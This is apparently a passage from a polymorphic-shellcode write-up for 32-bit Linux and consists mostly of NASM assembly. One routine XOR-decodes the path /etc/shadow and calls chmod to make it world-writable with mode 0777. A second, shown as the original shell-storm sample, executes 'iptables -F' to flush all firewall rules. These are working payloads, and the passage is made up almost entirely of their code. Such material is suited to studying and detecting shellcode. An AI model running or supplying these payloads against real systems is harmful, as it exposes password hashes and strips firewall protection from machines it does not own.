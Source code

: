 ```nasm
global _start

section .text

_start:

mov ecx, 0x01ff87fd ; XOR key + mode (upper half)
mov eax, 0x0188e899 ; /etc/shadow (XOR encoded)
mov ebx, 0x6097f4d2
mov edx, 0x628be2d2
xor eax, ecx
xor ebx, ecx
xor edx, ecx
push eax
push ebx
push edx  
mov ebx, esp        ; const char *pathname
shr ecx, 16         ; mode_t mode -> 0777
xor eax, eax
add eax, 0xf        ; sys_chmod
int 0x80
```

## Sample 2: Linux/x86 - iptables -F

- Original size: 58 bytes
- Polymorphic size: 67 bytes (15% increase)
- Source: [http://shell-storm.org/shellcode/files/shellcode-361.php](http://shell-storm.org/shellcode/files/shellcode-361.php)

### Original code

```nasm
section .text

global _start

_start:

jmp short callme

main:

pop esi
xor eax,eax
mov byte [esi+14],al
mov byte [esi+17],al
mov long [esi+18],esi
lea ebx,[esi+15]
mov long [esi+22],ebx
mov long [esi+26],eax
mov al,0x0b
mov ebx,esi
lea ecx,[esi+18]
lea edx,[esi+26]
int 0x80

callme:

call main
db '/sbin/iptables#-F#'
```
